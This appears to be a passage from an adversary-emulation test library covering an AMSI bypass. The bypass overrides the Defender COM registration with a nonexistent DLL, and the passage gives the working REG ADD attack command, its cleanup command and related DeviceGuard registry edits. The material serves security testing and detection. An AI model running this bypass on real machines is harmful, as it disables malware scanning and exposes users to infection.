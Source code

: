 ```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard" /v "Locked" /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Enabled" /t REG_DWORD /d 1 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity" /v "Locked" /t REG_DWORD /d 0 /f
```




<br/>
<br/>

## Atomic Test #44 - AMSI Bypass - Override AMSI via COM
With administrative rights, an adversary can disable AMSI via registry value in HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec} by overriding the Microsoft Defender COM object for AMSI and points it to a DLL that does not exist.
This is currently being used by AsyncRAT and others. 
https://strontic.github.io/xcyclopedia/library/clsid_fdb00e52-a214-4aa1-8fba-4357bb0072ec.html
https://securitynews.sonicwall.com/xmlpost/asyncrat-variant-includes-cryptostealer-capabilites/

**Supported Platforms:** Windows


**auto_generated_guid:** 17538258-5699-4ff1-92d1-5ac9b0dc21f5






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\InProcServer32 /ve /t REG_SZ /d C:\IDontExist.dll /f
```

#### Cleanup Commands:
```cmd
REG DELETE HKCU\Software\Classes\CLSID\{fdb00e52-a214-4aa1-8fba-4357bb0072ec}\InProcServer32 /f
```





<br/>
